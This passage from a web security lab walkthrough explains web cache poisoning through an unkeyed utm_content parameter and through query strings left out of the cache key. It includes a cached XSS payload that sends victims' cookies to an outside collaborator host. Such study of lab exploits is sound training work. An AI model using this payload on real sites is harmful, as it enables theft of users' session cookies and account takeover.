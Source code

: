 ### Unkeyed utm_content  

>Target is vulnerable to web cache poisoning because it excludes a certain parameter from the cache key. Param Miner's "Guess GET parameters" feature will ***identify*** the parameter as utm_content.  

![Cache query reflected](images/cache-query-reflected.png)  
  
```
GET /?utm_content='/><script>document.location="https://OASTIFY.COM?c="+document.cookie</script>
```  

>Above payload is cached and the victim visiting target cookie send to Burp collaborator.  

![cache-collaborator.png](images/cache-collaborator.png)  

[PortSwigger Lab: Web cache poisoning via an unkeyed query parameter](https://portswigger.net/web-security/web-cache-poisoning/exploiting-implementation-flaws/lab-web-cache-poisoning-unkeyed-param)  

### Query String

>In this situation, we can not add a cache buster as a query parameter like always `GET /?cb=123` because now, we still get a cache hit even if we change the query parameters. This indicates that they are not included in the cache key. If they were part of the cache key, requests `GET /?cb=1` and `GET /?cb=2` would represent two different cache keys and would get a miss.
>Example:

![cb1](images/cb1_hit.png)
![cb1](images/cb2.png)

>In this type of situations, headers like `Origin` can act as cache busters. They are part of the cache key, so every change on them would generate a miss on the cache key.
>So, if the query parameter is not part of the cache key and is reflected on the response, it means that we can use it in combination with the cache buster and then, delete it. For example, with this `Origin` header, paremeter `?cb=2` gets reflected in the servers response:
